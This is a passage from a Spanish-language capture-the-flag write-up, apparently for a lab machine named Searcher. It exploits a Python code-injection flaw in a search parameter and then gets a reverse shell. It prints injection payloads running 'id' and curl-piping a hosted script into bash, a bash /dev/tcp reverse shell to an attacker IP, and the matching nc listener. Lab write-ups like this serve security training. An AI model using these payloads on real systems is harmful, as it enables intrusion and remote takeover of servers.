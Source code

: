 Para realizar la explotación manual, interceptaremos con `BurpSuite` la solicitud de [http://searcher.htb/search?engine=Google\&query=](http://searcher.htb/search?engine=Google\&query=). Inyectaremos el siguiente comando, al enviar la solicitud, comprobamos en la respuesta por parte del servidor recibimos el resultado de la ejecución de comandos.

```bash
' + __import__('os').popen('id').read() + '
```

<figure><img src="../../.gitbook/assets/imagen (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El siguiente paso, será lograr obtener una Reverse Shell. Para ello, crearemos en nuestro equipo un archivo llamado `shell.sh` que contiene la Reverse Shell, compartiremos el script a través de un servidor web.

```bash
❯ cat shell.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/443 0>&1'

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde otra terminal nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos la siguiente inyección de comando para que realize la petición con`cURL` de nuestro script `shell.sh` y lo ejecutará en una `bash`.

```bash
' + __import__('os').popen('curl http://10.10.16.7/shell.sh|bash').read() + '
```

<figure><img src="../../.gitbook/assets/imagen (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
